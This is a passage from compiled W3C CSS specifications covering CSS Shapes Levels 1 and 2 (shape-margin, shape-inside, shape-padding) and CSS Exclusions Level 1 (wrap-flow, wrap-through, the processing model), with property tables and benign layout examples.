: Sets the threshold used for extracting a shape from an image. The shape is defined by the pixels whose alpha value is greater than the threshold. A threshold value outside the range 0.0 (fully transparent) to 1.0 (fully opaque) will be clamped to this range.

> **Note:** A future level of CSS Shapes may define a switch to use the luminance data from an image instead of the alpha data. When this happens, shape-image-threshold will be extended to apply its threshold to either alpha or luminance, depending on the switch state.

#### 6.3.  Expanding a Shape: the `shape-margin` property {#css-shapes-1:shape-margin-property}

The `shape-margin` property adds a margin to a `shape-outside`. This defines a new shape that is the smallest contour (in the shrink-wrap sense) that includes all the points that are the `shape-margin` distance outward in the perpendicular direction from a point on the underlying shape. This includes any edge or line sections from the underlying shape. Note that at points where a perpendicular is not defined (e.g. sharp points or line ends) take all points on the circle centered at the point and with a radius of `shape-margin`.

The new shape produced by applying `shape-outside` is what determines the float area, and must be constructed before making any wrap decisions.

This property takes only non-negative values.

| Field | Value |
| --- | --- |
| Name: | **shape-margin** |
| [Value:](#css-values-4:value-defs) | `<length-percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | floats and initial letter boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the inline size of the containing block |
| [Computed value:](#css-cascade-6:computed) | computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

****`<length-percentage [0,∞]>`****

: Sets the margin of the shape to the specified value.

> **Note:** Adding a shape-margin does NOT allow a float area to extend outside a float’s margin box. Extra margin may need to be applied along with shape-margin to avoid clipping.

> **Example:** A `shape-margin` creating an offset from a polygonal `shape-outside`. The lighter blue area shows the shape in a 100x100px float, and the darker blue area shows the 10px offset.
>
> ```
>   .float {
>       width: 100px;
>       height: 100px;
>     shape-outside: polygon(10px 10px, 90px 50px, 40px 50px, 90px 90px, 10px 90px);
>     shape-margin: 10px;
>   }
> ```
>
> 

> **Example:** If shape-margin is added to the CSS logo from example 6, the line boxes wrapping around the shape are shortened further. In case the image’s alpha channel runs up to the right edge of the image, some extra margin-right should be applied to ensure the shape is not clipped by the margin box.
>
> ```
>   #CSSlogo {
>     shape-margin: 35px;
>     margin-right: 35px;
>   }
> ```
>
> 
>
> A float shape around an image using its alpha-channel with a 35-pixel `shape-margin`

---

## CSS Shapes Module Level 2 {#css-shapes-2}

- **Shortname:** `css-shapes-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-shapes-2/](https://drafts.csswg.org/css-shapes-2/)
- **Published TR:** [https://www.w3.org/TR/css-shapes-2/](https://www.w3.org/TR/css-shapes-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-05-06
- **Diff Specification Over:** [CSS Shapes Module Level 1 (`css-shapes-1`)](#css-shapes-1)

### 1.  Introduction {#css-shapes-2:intro}

*This section is not normative.*

Level 1 of this specification defined properties to control the geometry of an element’s float area. This level defines how shapes apply to exclusions. It also includes a `shape-inside` property for applying a shape to an element’s content area. Finally, it defines new ways of specifying shapes for all of these applications.

#### 1.1.  Value Definitions {#css-shapes-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Terminology {#css-shapes-2:terminology}

****exclusion area****

: The area used for excluding inline flow content around an exclusion box. The exclusion area is equivalent to the border box for an exclusion box. This specification’s `shape-outside` property can be used to define arbitrary, non-rectangular exclusion areas. The `shape-inside` property also defines an exclusion area, but in this case it is the area outside the shape that inline content avoids.

****float area****

: The area used for wrapping content around a float element. By default, the float area is the float element’s margin box. This specification’s `shape-outside` property can be used to define arbitrary, non-rectangular float areas.

****content area****

: The content area is normally used for layout of the inline flow content of a box.

### 3.  Shapes {#css-shapes-2:shapes}

Shapes define arbitrary geometric contours around which inline content flows. The shape-outside property defines the float area for a float, and the exclusion area for an exclusion.

### 4.  Basic Shapes {#css-shapes-2:basic-shape-functions}

Add the final [level 1](#css-shapes-2:basic-shape-functions) section.

This level extends the `<basic-shape>` functions to include `shape()`:

```css
<basic-shape> = <basic-shape-rect> | <circle()> | <ellipse()> |  <polygon()> | <path()> | <shape()>
```

#### 4.1.  Supported Shapes {#css-shapes-2:supported-basic-shapes}

Add the final [level 1](#css-shapes-2:basic-shape-functions) sections.

##### 4.1.1.  The `shape()` Function {#css-shapes-2:shape-function}

Add the final [level 1](#css-shapes-1:shape-function) section.

### 5.  Referencing SVG shapes {#css-shapes-2:referencing-svg-shapes}

An SVG shape can be referenced using the `url()` syntax. The shape can be any of the [SVG basic shapes](https://www.w3.org/TR/SVG/shapes.html) or a [path element](https://www.w3.org/TR/SVG/paths.html).

> **Example:** 
>
> ```
> <style>
> div {
>   height: 400px;
>   width: 400px;
> }
> .in-a-circle {
>   shape-outside: url(#circle_shape);
> }
>
> .in-a-path {
>   shape-outside: url(#path-shape);
> }
> </style>
>
> <svg ...>
>   <circle id="circle_shape" cx="50%" cy="50%" r="50%" />
>   <path id="path-shape" d="M 100 100 L 300 100 L 200 300 z" />
> </svg>
>
> <div class="around-a-circle">...</div>
> <div class="around-a-path">...</div>
> ```

### 6.  Shapes from Image {#css-shapes-2:shapes-from-image}

Add the final [level 1](#css-shapes-2:shapes-from-image) section.

> **Issue:** One [suggestion](https://www.w3.org/Bugs/Public/show_bug.cgi?id=16716) is to define a shape based on an element’s rendered content. This could have security implications.

> **Issue:** Another [suggestion](http://lists.w3.org/Archives/Public/www-style/2014Mar/0120.html) is to add something to an image() function that determines the relevant pixels to use (both for defining a shape and for display).

### 7.  Fetching external shapes {#css-shapes-2:fetching-external-shapes}

To **fetch an external resource for a shape**, either an SVG or an image, given a CSS declaration block *declaration*, fetch a style resource given a `<url>` value, with ruleOrDeclaration being *declaration*, destination "image", CORS mode "cors", and processResponse being the following steps given response *res* and null, failure or a byte stream *byteStream*: If *byteStream* is a byte stream, apply the image or SVG to the appropriate shape-accepting property.

> **Note:** shapes require CORS mode as their effect is detected by the document.

### 8.  Shapes from Box Values {#css-shapes-2:shapes-from-box-values}

Add the final [level 1](#css-shapes-2:shapes-from-box-values) section.

### 9.  Declaring Shapes {#css-shapes-2:declaring-shapes}

A shape can be declared with the `shape-outside` property, with possible modifications from the `shape-margin` property. The shape defined by the `shape-outside` and `shape-margin` properties changes the geometry of a float element’s float area and an exclusion element’s exclusion area.

A shape can be declared with the `shape-inside` property, with possible modifications from the `shape-padding` property. The shape defined by the `shape-inside` and `shape-padding` properties defines an exclusion area that contributes to the element’s wrapping context. The `shape-inside` property applies to all block-level elements.

> **Example:** The red box illustrates an exclusion element’s content box, which is unmodified and subject to normal CSS positioning (here absolute positioning).
>
> ```
> <style type="text/css">
> .exclusion	{
>   wrap-flow: both;
>   position: absolute;
>   top: 25%;
>   left: 25%;
>   width: 50%;
>   height: 50%;
>   shape-outside: circle(50% at 50% 50%);
>   border: 1px solid red;
> }
> </style>
>
> <div style=”position: relative;”>
>   <div class=”exclusion”></div>
>   Lorem ipsum dolor sit amet...
> </div>
> ```
>
> 

#### 9.1.  The `shape-outside` Property {#css-shapes-2:shape-outside-property}

Add the final [level 1](#css-shapes-2:shape-outside-property) section with the change that shape-outside applies to block-level elements and has an effect if the element is an exclusion.

#### 9.2.  The `shape-inside` Property {#css-shapes-2:shape-inside-property}

The `shape-inside` property adds one or more exclusion areas to the element’s wrapping context. This modifies the normal rectangular shape of the content area to a possibly non-rectangular wrapping area. The exclusion areas are defined by subtracting the shape from the element’s content area. Any part of the shape outside the element’s content area has no effect.

| Field | Value |
| --- | --- |
| Name: | **shape-inside** |
| [Value:](#css-values-4:value-defs) | auto \| outside-shape \| [ `<basic-shape>` \|\| shape-box ] \| `<image>` \| display |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | computed lengths for `<basic-shape>`, the absolute URL for `<url>`, otherwise as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as defined for `<basic-shape>`, otherwise discrete |

The values of this property have the following meanings:

****auto****

: The shape is computed based on the content box of the element.

****outside-shape****

: The shape is computed based on the shape defined by the shape-outside and shape-margin properties.

****`<basic-shape>`****

: The shape is computed based on the values of one of the `<basic-shape>` functions.

****`<url>`****

: If the <uri> references an SVG shape element, that element defines the shape. Otherwise, if the <uri> references an image, the shape is extracted and computed based on the alpha channel of the specified image.

  If the <uri> does not reference an SVG shape element or an image, the effect is as if the value `auto` had been specified.

****display****

: The shape is computed based on the shape of the display as described in [css-round-display](#css-round-display-1).

The `shape-inside` property applies to floats.

The `shape-inside` property may not apply on some elements such as elements with a computed `display` value of `table`.


Effect of shape-inside on inline content.

Overflow content avoids the exclusion area(s) added by `shape-inside` and `shape-padding` (as well as any other exclusion areas in the element’s wrapping context). In other words, overflow continues outside the rectangular bounds of the element.

 

Overflow interacting with exclusion areas defined by `shape-inside` and `shape-padding`.

> **Issue:** improve the illustration above, using text to show overflow instead of grey boxes.

When a shape-inside has a definite size (no percentages used in the shape’s definition) an auto-sized element should use the shape as a constraint in determining its maximum size.

#### 9.3.  The `shape-image-threshold` Property {#css-shapes-2:shape-image-threshold-property}

Add the final [level 1](#css-shapes-2:shape-image-threshold-property) section with the change that it applies to both `shape-inside` and `shape-outside`.

#### 9.4.  The `shape-image-source-type` Property {#css-shapes-2:shape-image-source-type-property}

Should we add an alpha/luminance switch to determine which values we use from the shape-image source? This could just be a keyword on the shape-image-threshold property. Whatever we go with should be compatible with the alpha/luminance switch from mask sources.

#### 9.5.  The `shape-margin` property {#css-shapes-2:shape-margin-property}

Add the final [level 1](#css-shapes-2:shape-margin-property) section with the change that it applies to exclusions.

#### 9.6.  The `shape-padding` Property {#css-shapes-2:shape-padding-property}

The `shape-padding` property adds padding to a shape-inside. This defines a new shape where every point is the specified distance from the shape-inside. This property takes on positive values only.

| Field | Value |
| --- | --- |
| Name: | **shape-padding** |
| [Value:](#css-values-4:value-defs) | `<length-percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the inline size of the containing block |
| [Computed value:](#css-cascade-6:computed) | computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

****`<length-percentage [0,∞]>`****

: Sets the padding of the shape to the specified value.

> **Example:** 
>
> A `shape-padding` creating an offset from a circular `shape-inside`. The light blue rectangles represent inline content affected by the shape created by the padding.

> **Note:** The `shape-padding` property only affects layout of content inside the element it applies to while the `shape-margin` property only affects layout of content outside the element.

---

## CSS Exclusions Module Level 1 {#css-exclusions-1}

- **Shortname:** `css-exclusions-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-exclusions/](https://drafts.csswg.org/css-exclusions/)
- **Published TR:** [https://www.w3.org/TR/css3-exclusions/](https://www.w3.org/TR/css3-exclusions/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-10-22

### 1.  Introduction {#css-exclusions-1:intro}

*This section is not normative.*

This specification defines features that allow inline flow content to wrap around outside the exclusion area of elements.

#### 1.1.  Value Definitions {#css-exclusions-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Terminology {#css-exclusions-1:terms}

****Exclusion box****

: A [box](#css-box-4) ([CSS3BOX]) that defines an exclusion area for other boxes. The `wrap-flow` property is used to make an element’s generated box an exclusion box. An exclusion box contributes its exclusion area to its [containing block’s](#css2:containing-block-details) wrapping context. An element with a `float` computed value other than `none` does not become an exclusion.

****Exclusion area****

: The area used for excluding inline flow content around an exclusion box. The exclusion area is equivalent to the border box for an exclusion box.

  > **Note:** If a user agent implements both CSS Exclusions and CSS Shapes, the shape-outside property defines the exclusion area instead of the border box.

****Exclusion element****

: An exclusion element is a block-level element which is not a float and generates an exclusion box. An element generates an exclusion box when its `wrap-flow` property’s computed value is not `auto`.

****Wrapping context****

: The wrapping context of a box is a collection of exclusion areas contributed by its associated exclusion boxes. During layout, a box wraps its inline flow content in the `wrapping area` that corresponds to the subtraction of its wrapping context from its own content area.

  A box inherits its [containing block’s](#css2:containing-block-details) wrapping context unless it specifically resets it using the `wrap-through` property.

****Content area****

: The content area is normally used for layout of the inline flow content of a box.

****Wrapping area****

: The area used for layout of inline flow content of a box affected by a wrapping context, defined by subtracting the wrapping context from its content area.

****Outside** and **inside****

: In this specification, outside refers to DOM content that is not a descendant of an element while inside refers to the element’s descendants.

### 3.  Exclusions {#css-exclusions-1:exclusions}

Exclusion elements define exclusion areas that contribute to their containing block’s wrapping context. As a consequence, exclusions impact the layout of their containing block’s descendants.

Elements lay out their inline content in their content area and wrap around the exclusion areas in their associated wrapping context. If the element is itself an exclusion, it does not wrap around its own exclusion area and the impact of other exclusions on other exclusions is controlled by the `z-index` property as explained in the 'exclusions order' section.

#### 3.1.  Declaring exclusions {#css-exclusions-1:declaring-exclusions}

An element becomes an exclusion when its `wrap-flow` property has a computed value other than `auto`.

##### 3.1.1.  The `wrap-flow` property {#css-exclusions-1:wrap-flow-property}

| Field | Value |
| --- | --- |
| Name: | **wrap-flow** |
| [Value:](#css-values-4:value-defs) | auto \| both \| start \| end \| minimum \| maximum \| clear |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified except for element’s whose `float` computed value is not `none`, in which case the computed value is `auto`. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The values of this property have the following meanings:

****auto****

: No exclusion is created. Inline flow content interacts with the element as usual. In particular, if the element is a [float](#css2:floats) (see [CSS2]), the behavior is unchanged.

****both****

: Inline flow content can flow on all sides of the exclusion.

****start****

: Inline flow content can flow around the start edge of the exclusion area but must leave the area next to the end edge of the exclusion empty.

****end****

: Inline flow content can flow around the end edge of the exclusion area but must leave the area next to the start edge of the exclusion empty.

****minimum****

: Inline flow content can flow around the edge of the exclusion with the smallest available space within the flow content’s containing block, and must leave the other edge of the exclusion empty.

****maximum****

: Inline flow content can flow around the edge of the exclusion with the largest available space within the flow content’s containing block, and must leave the other edge of the exclusion empty.

****clear****

: Inline flow content can only flow before and after the exclusion in the flow content’s block direction and must leave the areas next to the start and end edges of the exclusion empty.

If the property’s computed value is `auto`, the element does not become an exclusion.

Otherwise, a computed `wrap-flow` property value of `both`, `start`, `end`, `minimum`, `maximum` or `clear` on an element makes that element an exclusion element. It’s exclusion area is contributed to its containing block’s wrapping context, causing the containing block’s descendants to wrap around its exclusion area.


Exclusion with `wrap-flow`: `start` interacting with various writing modes.

Determining the relevant edges of the exclusion depends on the [writing mode](#css-writing-modes-4:text-flow) [CSS3-WRITING-MODES] of the content wrapping around the 'exclusion area'.

An exclusion element establishes a new block formatting context (see [CSS2]) for its content.


Combining exclusions

The above figure illustrates how exclusions are combined. The outermost box represents an element’s content box. The A, B, C and D darker gray boxes represent exclusions in the element’s wrapping context. A, B, C and D have their respective `wrap-flow` computed to `both`, `start`, `end` and `clear` respectively. The lighter gray areas show the additional areas that are excluded for inline layout as a result of the `wrap-flow` value. For example, the area to the right of B cannot be used for inline layout of left-to-right writing mode content because the `wrap-flow` for B is `start`.

The background blue area shows what areas are available for a left-to-right writing mode element’s inline content layout. All areas represented with a light or dark shade of gray are not available for (left-to-right writing mode) inline content layout.

> **Example:** The `wrap-flow` property values applied to exclusions as grid items.
>
> ```
> <div id="grid">
>     <div id="top-right" class="exclusion"></div>
>     <div id="bottom-left" class="exclusion"></div>
>     <div id="content">Lorem ipsum…</div>
> </div>
>
> <style type="text/css">
> #grid {
>     width: 30em;
>     height: 30em;
>     display: grid;
>     grid-columns: 25% 25% 25% 25%;
>     grid-rows: 25% 25% 25% 25%;
>
> #top-right {
>     grid-column: 3;
>     grid-row: 2;
> }
>
> #bottom-left {
>     grid-column: 2;
>     grid-row: 3;
> }
>
> .exclusion {
>     wrap-flow: <see below>
> }
>
> #content {
>     grid-row: 1;
>     grid-row-span: 4;
>     grid-column: 1;
>     grid-column-span: 4;
> }
> </style>
> ```
>
> The following figures illustrate the visual rendering for different values of the `wrap-flow` property. The gray grid lines are marking the grid cells and the blue area is the exclusion box (positioned by the grid).
>
> | `.exclusion{ wrap-flow: auto; }` | `.exclusion{ wrap-flow: both; }` |
> | --- | --- |
> |  |  |
> | `.exclusion{ wrap-flow: start; }` | `.exclusion{ wrap-flow: end; }` |
> |  |  |
> | `.exclusion{ wrap-flow: minimum; }` | `.exclusion{ wrap-flow: maximum; }` |
> |  |  |
> | `.exclusion{ wrap-flow: clear; }` |  |
> |  |  |

#### 3.2.  Scope and effect of exclusions {#css-exclusions-1:scope-and-effect-of-exclusions}

An exclusion affects the inline flow content descended from the exclusion’s containing block (defined in [CSS 2.1 10.1](#css2:containing-block-details)) and that of all descendant elements of the same containing block. All inline flow content inside the containing block of the exclusions is affected. To stop the effect of exclusions defined outside an element, the `wrap-through` property can be used (see the [propagation of exclusions](#css-exclusions-1:propagation-of-exclusions) section below).

As a reminder, for exclusions with `position`:`fixed`, the containing block is established by the root element.

#### 3.3.  Propagation of Exclusions {#css-exclusions-1:propagation-of-exclusions}

By default, an element inherits its parent wrapping context. In other words it is subject to the exclusions defined outside the element.

Setting the `wrap-through` property to `none` prevents an element from inheriting its parent wrapping context. In other words, exclusions defined `outside` the element, have not effect on the element’s children layout.

> **Note:** Exclusions defined by an element’s descendants still contribute to their containing block’s wrapping context. If that containing block is a child of an element with `wrap-through` computes to `none`, or the element itself, then exclusion still have an effect on the children of that containing block element.

##### 3.3.1.  The `wrap-through` Property {#css-exclusions-1:wrap-through-property}

| Field | Value |
| --- | --- |
| Name: | **wrap-through** |
| [Value:](#css-values-4:value-defs) | wrap \| none |
| [Initial:](#css-cascade-6:initial-values) | wrap |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The values of this property have the following meanings:

****wrap****

: The element inherits its parent node’s wrapping context. Its descendant inline content wraps around exclusions defined outside the element.

****none****

: The element does not inherit its parent node’s wrapping context. Its descendants are only subject to exclusion areas defined inside the element.

> **Example:** Using the `wrap-through` property to control the effect of exclusions.
>
> ```
> <style type="text/css">
>     #grid {
>         display: grid;
>         grid-columns: 25% 50% 25%;
>         grid-rows: 25% 25% 25% 25%;
>     }
>
>     #exclusion {
>         grid-row: 2;
>         grid-row-span: 2;
>         grid-column: 2;
>         wrap-flow: <see below>
>     }
>
>     #rowA, #rowB {
>         grid-row-span: 2;
>         grid-column: 1;
>         grid-column-span: 3;
>     }
>
>     #rowA {
>         grid-row: 1;
>     }
>
>     #rowB {
>         grid-row: 3;
>     }
>     </style>
>
> <style type="text/css">
>     .exclusion  {
>       wrap-flow: both;
>       position: absolute;
>       left: 20%;
>       top: 20%;
>       width: 50%;
>       height: 50%;
>       background-color: rgba(220, 230, 242, 0.5);
>     }
> </style>
>
> <div id="grid">
>     <div class=”exclusion”></div>
>     <div id="rowA" style=”wrap-through: wrap;”> Lorem ipsum dolor sit amet...</div>
>     <div id="rowB" style=”wrap-through: none;”> Lorem ipsum dolor sit amet...</div>
> </div>
> ```
>
> 

#### 3.4.  Exclusions order {#css-exclusions-1:exclusions-order}

Exclusions follow the painting order (See [CSS2] Appendix E). Exclusions are applied in reverse to the document order in which they are defined. The last exclusion appears on top of all other exclusion, thus it affects the inline flow content of all other preceding exclusions or elements descendant of the same containing block. The `z-index` property can be used to change the ordering of [positioned](#css2:choose-position) exclusion boxes (see [CSS2]). Statically positioned exclusions are not affected by the `z-index` property and thus follow the painting order.

> **Example:** Ordering of exclusions.
>
> ```
> <style type="text/css">
>     .exclusion  {
>       wrap-flow: both;
>       position: absolute;
>       width: 200px;
>     }
>     .topleft {
>       top: 10px;
>       left: 10px;
>       background-color: lightblue;
>     }
>     .middle {
>       top: 90px;
>       left: 90px;
>       background-color: lightgreen;
>     }
>     .bottomright {
>       top: 170px;
>       left: 170px;
>       background-color: pink;
>     }
> </style>
>
> <div class="exclusion topleft">
>     The top left div...
> </div>
> <div class="exclusion middle">
>     The middle div...
> </div>
> <div class="exclusion bottomright">
>     The bottom right div...
> </div>
> ```
>
> | `.middle { z-index: auto; }` | `.middle { z-index: 1; }` |
> | --- | --- |
> |  |  |

[Issue-15183](https://www.w3.org/Bugs/Public/show_bug.cgi?id=15183)

Is the CSS exclusions processing model incorrect?

> **Issue:** The current draft provides a model for exclusions without a collision-avoidance model. The existing exclusion model in CSS uses floats, which have both exclusion and collision-avoidance behavior. Concerns have been raised that allowing exclusions without collision avoidance could be harmful, particularly with absolutely-positioned elements. Three options should be considered:
>
> 1. Allow exclusions in positioning schemes with no collision avoidance.
> 2. Disallow exclusions in positioning schemes with no collision avoidance.
> 3. Define collision-avoidance behavior for positioning schemes without it, and use this behavior by default with exclusions.

#### 3.5.  Processing model {#css-exclusions-1:exclusions-processing-model}

##### 3.5.1.  Description {#css-exclusions-1:exclusions-processing-model-description}

Applying exclusions is a two-step process:

- **Step 1**: resolve exclusion boxes belonging to each wrapping context
- **Step 2**: resolve each wrapping context and lay out each containing block in turn:

  - **Step 2-A**: resolve the position and size of exclusion boxes
  - **Step 2-B**: lay out containing block, wrapping around each exclusion area

##### 3.5.2.  Step 1: resolve exclusion boxes belonging to each wrapping context {#css-exclusions-1:step-1}

In this step, the user agent determines which [containing block](#css2:containing-block-details) each exclusion area belongs to. This is a simple step, based on the definition of containing blocks and elements with a computed value for `wrap-flow` that is not `auto`.

##### 3.5.3.  Step 2: resolve wrapping contexts and lay out containing blocks {#css-exclusions-1:step-2}

In this step, starting from the top of the [rendering tree](#css2:z-index) (see [CSS2]), the agent processes each containing block in two sub-steps.

##### 3.5.4.  Step 2-A: resolve the position and size of exclusion boxes {#css-exclusions-1:step-2-A}

Resolving the position and size of exclusion boxes in the wrapping context may or may not require a layout. For example, if an exclusion box is absolutely positioned and sized, a layout may not be needed to resolve its position and size. In other situations, laying out the containing block’s content is required.

When a layout is required, it is carried out without applying any exclusion area. In other words, the containing block is laid out without a wrapping context.

Step 2-A yields a position and size for all exclusion boxes in the wrapping context. Each exclusion box is processed in turn, starting from the top-most, and each exclusion area is computed and contributed to the [containing block’s](#css2:containing-block-details) wrapping context.

Scrolling is ignored in this step when resolving the position and size of `position`: `fixed` exclusion boxes.

Once the [containing block’s](#css2:containing-block-details) wrapping context is computed, all exclusion boxes in that wrapping context are removed from the normal flow.

##### 3.5.5.  Step 2-B: lay out containing block applying wrapping {#css-exclusions-1:step-2-B}

Finally, the content of the containing block is laid out, with the inline content wrapping around the wrapping context’s exclusion area.

When the containing block itself is an exclusion box, then rules on [exclusions order](#css-exclusions-1:exclusions-order) define which exclusions affect the inline and descendant content of the box.

##### 3.5.6.  Processing Model Example {#css-exclusions-1:processing-model-example}

This section illustrates the exclusions processing model with an example. It is meant to be simple. Yet, it contains enough complexity to address the issues of layout dependencies and re-layout.

The code snippet in the following example has two exclusions affecting the document’s inline content.

> **Example:** ```
> <html>
> <style>
> #d1 {
>     position:relative;
>     height: auto;
>     color: #46A4E9;
>     border: 1px solid gray;
> }
>
> #e1 {
>     wrap-flow: both;
>     position: absolute;
>     left: 50%;
>     top: 50%;
>     width: 40%;
>     height: 40%;
>     border: 1px solid red;
>     margin-left: -20%;
>     margin-top: -20%;
> }
>
> #d2 {
>     position: static;
>     width: 100%;
>     height: auto;
>     color: #808080;
> }
>
> #e2 {
>     wrap-flow: both;
>     position: absolute;
>     right: 5ex;
>     top: 1em;
>     width: 12ex;
>     height: 10em;
>     border: 1px solid lime;
> }
> </style>
> <body>
>     <div id="d1">
>         Lorem ipsusm ...
>         <p id="e1"></p>
>     </div>
>     <div id="d2">
>         Lorem ipsusm ...
>         <p id="e2" ></p>
>     </div>
> </body>
> </html>
> ```

The following figures illustrate:

- the document’s DOM tree
- the layout tree of generated block boxes


DOM tree


Layout tree of generated block boxes

###### 3.5.6.1.  Step 1: resolve exclusion boxes belonging to each wrapping context {#css-exclusions-1:example-step-1}

The figures illustrate how the boxes corresponding to the element sometimes have a different containment hierarchy in the layout tree than in the DOM tree. For example, the box generated by `e1` is positioned in its containing block’s box, which is the `d1-box`, because `e1` is absolutely positioned and `d1` is relatively positioned. However, while `e2` is also absolutely positioned, its containing block is the initial containing block (ICB). See the section 10.1 of the CSS 2.1 specification ([CSS2]) for details.

As a result of the computation of containing blocks for the tree, the boxes belonging to the wrapping contexts of all the elements can be determined:

- The wrapping context for the html element contains the `e2` box: WC-1 (Wrapping Context 1)
- The wrapping context for the body element inherits the html element’s wrapping context: WC-1
- The wrapping context for `d1` inherits the body element’s wrapping context and adds the `e1-box` to it. So the wrapping context is made of both the `e1-box` and the `e2-box`: WC-2
- The wrapping context for `d2` inherits the body element’s wrapping context: WC-1

###### 3.5.6.2.  Step 2: resolve wrapping contexts and lay out containing blocks {#css-exclusions-1:example-step-2}

In this step, each containing block is processed in turn. For each containing block, we (conceptually) go through two phases:

1. resolve the wrapping context: resolve the position and size of its exclusions
2. lay out the containing block

In our example, this breaks down to:

1. resolve the position and size of the exclusions belonging to WC-1: RWC-1 (Resolved Wrapping Context 1).
2. lay out the initial containing block (i.e., lay out its content):

  1. resolve the html element’s wrapping context: RWC-1
  2. lay out the html element:

    1. resolve the body element’s wrapping context: RWC-1
    2. lay out the body element:

      1. resolve the `d1` element’s wrapping context: RWC-2
      2. lay out the `d1` element
      3. resolve the `d2` element’s wrapping context: RWC-1
      4. lay out the `d2` element

###### 3.5.6.2.1.  Resolving RWC-1 {#css-exclusions-1:example-resolving-rwc-1}

The top-most wrapping context in the layout tree contains the `e2` exclusion. Its position and size needs to be resolved. In general, computing an exclusion’s position and size may or may not require laying out other content. In this example, no content needs to be laid out to resolve the `e2` exclusion’s position because it is absolutely positioned and its size can be resolved without layout either. At this point, RWC-1 is resolved and can be used when laying inline content out.

###### 3.5.6.2.2.  Resolving RWC-2 {#css-exclusions-1:example-resolving-rwc-2}

The process is similar: the position of the `e1` exclusion needs to be resolved. Again, resolving the exclusion’s position and size may require processing the containing block (d1 here). It is the case here because the size and position of `e1` depend on resolving the percentage lengths. The percentages are relative to the size of `d1`’s box. As a result, in order to resolve a size for `d1`’s box, a first layout of `d1` is done without any wrapping context (i.e., no exclusions applied). The layout yields a position and size for `e1`’s box.

At this point, RWC-2 is resolved because the position and size of both e1 and e2 are resolved.

> **Note:** The important aspect of the above processing example is that once an element’s wrapping context is resolved (by resolving its exclusions' position and size), the position and size of the exclusions are not re-processed if the element’s size changes between the layout that may be done without considering any wrapping context (as for RWC-2) and the layout done with the resolved wrapping context. This is what breaks the possible circular dependency between the resolution of wrapping contexts and the layout of containing blocks.

#### 3.6.  Floats and exclusions {#css-exclusions-1:floats-and-exclusions}

##### 3.6.1.  Similarities {#css-exclusions-1:floats-and-exclusions-similarities}

There are similarities between floats and exclusions in that inline content wraps around floats and also wraps around exclusion areas. However, there are very significant differences.

##### 3.6.2.  Differences {#css-exclusions-1:floats-and-exclusions-differences}

- **scope**. While floats apply to content that follows in the document, exclusions apply to content in their containing block.
- **positioning**. Floats are part of the inline flow and `float` on the line box. Authors can control how the floats move on the line box, to the right or to the left. By contrast, exclusions can be positioned using any positioning scheme such as grid layout ([CSS3-GRID-LAYOUT]), flexible box ([CSS3-FLEXBOX]) or any other CSS positioning scheme.
- **separation of concerns**. Making an element a float determines both its positioning scheme and its effect on inline content. Making an element an exclusion only determines its impact on inline content and does not impose constraints on its positioning method.

##### 3.6.3.  Interoperability {#css-exclusions-1:floats-interop}

###### 3.6.3.1.  Effect of floats on exclusions {#css-exclusions-1:effect-of-floats-on-exclusions}

Floats have an effect on the positioning of exclusions and the layout of their inline content. For example, if an exclusion is an inline-box which happens to be on the same line as a float, its position, as computed in [Step 2-A](#css-exclusions-1:step-2-A) will be impacted by the float, as is any other inline content.

###### 3.6.3.2.  Effect of exclusions on floats {#css-exclusions-1:effect-of-exclusions-on-floats}

Exclusions have an effect on the positioning of floats as they have an effect on inline content. Therefore, in [Step 2-B](#css-exclusions-1:step-2-B), floats will avoid exclusion areas.

---

## CSS Regions Module Level 1 {#css-regions-1}

- **Shortname:** `css-regions-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-regions/](https://drafts.csswg.org/css-regions/)
- **Published TR:** [https://www.w3.org/TR/css-regions-1/](https://www.w3.org/TR/css-regions-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-01-18

### 1.  Introduction {#css-regions-1:introduction}

*This section is non-normative.*

